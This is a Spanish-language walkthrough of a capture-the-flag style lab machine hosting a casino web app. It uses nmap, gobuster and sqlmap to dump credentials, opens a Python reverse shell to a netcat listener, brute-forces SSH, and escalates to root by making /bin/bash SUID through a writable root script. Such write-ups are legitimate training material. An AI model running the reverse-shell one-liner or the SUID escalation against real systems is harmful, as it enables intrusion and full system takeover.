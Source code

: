 Lo primero es hacer un escaneo de puertos y servicios con nmap.

![Pasted image 20240810013800](https://github.com/user-attachments/assets/17a126d0-bc5c-49fa-a2b1-1b68eddbe7dc)

Accedo al recurso, es una página de un casino, voy a la opción de Login y me encuentro un formulario.

![Pasted image 20240810014001](https://github.com/user-attachments/assets/a4d4d8e9-e5a0-456d-8985-9b96aa582494)

Intento iniciar con unas credenciales admin admin para ver si puedo entrar.

![Pasted image 20240810014111](https://github.com/user-attachments/assets/fac9ebe9-a36d-452c-a459-d630ae0dbc6a)

Voy a realizar un poco de fuzzing web con gobuster.

![Pasted image 20240810020742](https://github.com/user-attachments/assets/3583c750-1e7a-43d0-a3d6-d132f4256aad)

No encuentro nada útil asique voy a intentar obtener la base de datos con sqlmap.

![Pasted image 20240810021003](https://github.com/user-attachments/assets/2c958972-ddaf-4bf7-ad37-8017e4a8e891)

Primero voy a intentar obtener las bases de datos.

![Pasted image 20240810021037](https://github.com/user-attachments/assets/1b140f2b-1d01-4895-b922-4e76e76db49a)

Ahora voy a intentar obtener las tablas de la base de datos users.

![Pasted image 20240810021131](https://github.com/user-attachments/assets/7a3c924e-1eea-4aa5-8617-f192ee986bb3)

![Pasted image 20240810021143](https://github.com/user-attachments/assets/50d5185f-6922-4bee-b511-946b75efe007)

Lo siguiente es obtener las columnas de la tabla usuarios.

![Pasted image 20240810021410](https://github.com/user-attachments/assets/86969d70-ea9f-483d-b768-1684a2b9131a)

![Pasted image 20240810021417](https://github.com/user-attachments/assets/8d82257b-d6bf-426e-b4e6-7a0fe2f092bc)

Para ver el contenido de las columnas.

![Pasted image 20240810021527](https://github.com/user-attachments/assets/af11651c-f4ec-4e99-8e13-b2da3b9ee6b0)

![Pasted image 20240810021533](https://github.com/user-attachments/assets/8ff9d58b-8cd4-4b89-986a-f1c88992f7bb)

Voy al formulario e inicio sesión como el usuario joe con la password MiClaveEsInhackeable.

![Pasted image 20240810021651](https://github.com/user-attachments/assets/89b2305c-51d8-46e0-8aee-4793a850780b)

Encuentro un panel de administración, lo que me hace pensar que joe es un administrador.

Veo que me pide que introduzca un comando Python.

Puedo leer archivos como el de los usuarios de la máquina.

![Pasted image 20240810022150](https://github.com/user-attachments/assets/ce850e58-2493-4345-845b-7fb79ba72f09)

Voy a intentar ejecutar una reverse shell para conseguir acceso al sistema.

Primero me pongo en escucha por el puerto 4646 utilizando netcat.

```
nc -lvnp 4646
```

Y luego ejecuto el comando.

![Pasted image 20240810023548](https://github.com/user-attachments/assets/652d2843-4389-4a7b-aef7-045c765b25fd)

```
import os,pty,socket;s=socket.socket();s.connect(("172.17.0.1",4646));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")
```

Ahora haré el tratamiento de la TTY.

```bash
script /dev/null -c bash
Control + Z
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Voy a ver si hay algún archivo en el directorio /tmp que son archivos temporales.

![Pasted image 20240810024550](https://github.com/user-attachments/assets/80d6c07c-93cd-434b-8b00-c43450d2ca61)

Veo un archivo txt oculto, listo su contenido y son diferentes comandos de trucos del videojuego gta san andreas.

Lo importante es que hay un nuevo posible usuario llamado Martin, pero este usuario no se encuentra en el archivo /etc/passwd como vi anteriormente cuando lo listé desde el panel del administrador.

Voy a ver si puede ser posible que la contraseña de Joe o Luciano se encuentre en este .txt por lo que me lo voy a copiar y además como todas están en mayúsculas, voy a crear el mismo fichero pero con todas minúsculas.

En el archivo passwd.txt guardo las passwords en mayúsculas y en el passwd2.txt las minúsculas. 

![Pasted image 20240810025816](https://github.com/user-attachments/assets/d00172d2-e66a-4dce-a525-f52e06c32473)

Con el archivo con las contraseñas en mayúsculas no consigo nada sin embargo con el de las minúsculas y el usuario joe consigo las credenciales para acceder por ssh a la máquina.

![Pasted image 20240810030103](https://github.com/user-attachments/assets/8536ac57-7597-4b59-bf5d-e593b3550aba)

Inicio sesión en ssh como joe.

![Pasted image 20240810030124](https://github.com/user-attachments/assets/e6be355a-8740-4fec-994e-c88ac5f69e60)

Voy a intentar escalar privilegios.

Consigo ser el usuario Luciano gracias al siguiente binario.

![Pasted image 20240810030452](https://github.com/user-attachments/assets/7388bfdb-8fbd-45eb-a5d2-4ac4bed4cbaa)

En el directorio de Luciano, encuentro que puedo ejecutar como root un script.sh que me proporciona una reverse shell.

![Pasted image 20240810030632](https://github.com/user-attachments/assets/3aa57181-e88f-4611-8878-1ae9f8854295)

Tengo que cambiar el contenido para cambiar los permisos sobre el binario /bin/bash, pero antes un tratamiento de TTY.
```
script /dev/null -c bash
```

Ahora voy a modificar el contenido de la siguiente forma con el comando echo.

```bash
echo -e '#!/bin/bash\n\nchmod u+s /bin/bash' > script.sh
```
Para obtener una bash como root tengo que ejecutar el comando **bash -p**.

![Pasted image 20240810032612](https://github.com/user-attachments/assets/72ca43ba-b948-46c6-8354-f8f500cde388)
